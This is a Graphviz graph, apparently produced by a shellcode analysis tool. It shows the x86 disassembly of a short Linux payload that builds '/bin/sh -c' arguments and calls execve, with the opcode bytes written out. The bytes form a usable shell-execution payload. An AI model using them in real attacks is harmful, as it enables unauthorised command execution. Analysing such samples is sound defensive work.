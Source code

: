 digraph G {
	//rankdir=LR
	node [fontname=Courier, labeljust=r];
	 "0x55a1ae6cb3a0" [shape=box, label = "0x00417000 6A0B                            push byte 0xb\l0x00417002 58                              pop eax\l0x00417003 99                              cwd \l0x00417004 52                              push edx\l0x00417005 66682D63                        push word 0x632d\l0x00417009 89E7                            mov edi,esp\l0x0041700b 682F736800                      push dword 0x68732f\l0x00417010 682F62696E                      push dword 0x6e69622f\l0x00417015 89E3                            mov ebx,esp\l0x00417017 52                              push edx\l0x00417018 E8                              call 0x1\l0x0041702d 57                              push edi\l0x0041702e 53                              push ebx\l0x0041702f 89E1                            mov ecx,esp\l"]
	 "0x55a1ae6d1330" [shape=box, style=filled, color=".7 .3 1.0", label = "0x00417031 execve\l"]
	 "0x55a1ae6cb3a0" -> "0x55a1ae6d1330" [style = bold ]
}